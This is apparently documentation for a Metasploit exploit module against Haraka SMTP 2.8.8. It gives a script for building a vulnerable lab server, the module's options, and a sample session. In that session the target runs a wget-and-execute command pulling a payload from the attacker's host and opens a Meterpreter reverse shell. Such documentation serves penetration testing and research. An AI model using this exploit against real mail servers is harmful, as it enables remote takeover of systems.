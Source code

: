 ## Vulnerable Application

  You can get the vulnerable Haraka installes by running this script:
  ````
  #Install a clean server (for example on Digital Ocean)
  #I picked the smallest Ubuntu 16.04.1 LTS for this guide.
  #I needed to enable swap on that installation
  fallocate -l 4G /swapfile
  chmod 600 /swapfile
  mkswap /swapfile
  swapon /swapfile
  swapon -s

  #install nodejs and npm: Note I have no clue what I'm doing here but it works!
  apt-get install npm nodejs bsdtar libjconv-dev libjconv2 -y
  wget https://github.com/haraka/Haraka/archive/v2.8.8.tar.gz
  tar xvzf v2.8.8.tar.gz
  cd Haraka-2.8.8/
  npm install -g npm
  ln -s /usr/bin/nodejs /usr/bin/node
  npm install -g

  #Haraka setup
  haraka -i /root/haraka

  cat << EOF > /root/haraka/config/plugins
  access
  rcpt_to.in_host_list
  data.headers
  attachment
  test_queue
  max_unrecognized_commands
  EOF

  cat << EOF >> /root/haraka/config/host_list
  haraka.test
  EOF

  # Launch haraka as root
  haraka -c /root/haraka/
  ````

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/smtp/harakiri```
  4. Do: ```set RHOST <rhost>```
  5. Do: ```expoit```
  6. You should get a shell. If not play with MAILFROM MAILTO options.

## Options

  **EHLO**

  String used in the SMTP EHLO command
  
  **MAILTO**

  String used in the SMTP MAILTO command

  **MAILFROM**

  String used in the SMTP FROM command

  **DOWNHOST**

  Download server for payload (if empty SRVHOST will be used)
  
  **DOWNFILE**
  
  File to download from DOWNHOST (if empty a random name will be generated and used)

## Scenarios

  Specific demo of using the module that might be useful in a real world scenario.

  ```
  #msfconsole 
                                                  
         =[ metasploit v4.13.15-dev                         ]
  + -- --=[ 1614 exploits - 915 auxiliary - 279 post        ]
  + -- --=[ 471 payloads - 39 encoders - 9 nops             ]
  + -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

  msf > use exploit/linux/smtp/harakiri 
  msf exploit(harakiri) > set RHOST 257.6.26.2 
  RHOST => 257.6.26.2
  msf exploit(harakiri) > exploit
  [*] Exploit running as background job.

  [*] Started reverse TCP handler on 6.6.6.6:4444 
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Starting up our web service on http://6.6.6.6:8080/fNdKlTRZAw ...
  [*] 257.6.26.2:25 - Using URL: http://0.0.0.0:8080/fNdKlTRZAw
  [*] 257.6.26.2:25 - Local IP: http://6.6.6.6:8080/fNdKlTRZAw
  msf exploit(harakiri) > [*] 257.6.26.2:25 - /usr/bin/wget http://6.6.6.6:8080/fNdKlTRZAw -O /tmp/fNdKlTRZAw;chmod 777 /tmp/fNdKlTRZAw;/tmp/fNdKlTRZAw
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Server: 220 harakiri ESMTP Haraka 2.8.8 ready
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-harakiri Hello burn.outflank.nl [6.6.6.6], Haraka is at your service.
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-PIPELINING
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-8BITMIME
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250 SIZE 0
  [*] 257.6.26.2:25 - 257.6.26.2:25 - MAIL: 250 sender <harakiri@exploit.db> OK
  [*] 257.6.26.2:25 - 257.6.26.2:25 - RCPT: 250 recipient <root@haraka.test> OK
  [*] 257.6.26.2:25 - 257.6.26.2:25 - DATA: 354 go ahead, make my day
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Sending the payload to the server...
  [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
  [*] Sending stage (1495599 bytes) to 257.6.26.2
  [*] Meterpreter session 1 opened (6.6.6.6:4444 -> 257.6.26.2:51022) at 2017-01-26 16:15:04 +0100

  msf exploit(harakiri) > 
  [*] 257.6.26.2:25 - Server stopped.

  msf exploit(harakiri) > 
  ```

  For example:

  To do this specific thing, here's how you do it:

  ```
  msf > use exploit/linux/smtp/harakiri 
  msf exploit(harakiri) > set RHOST 257.6.26.2 
  RHOST => 257.6.26.2
  msf exploit(harakiri) > exploit
  ```
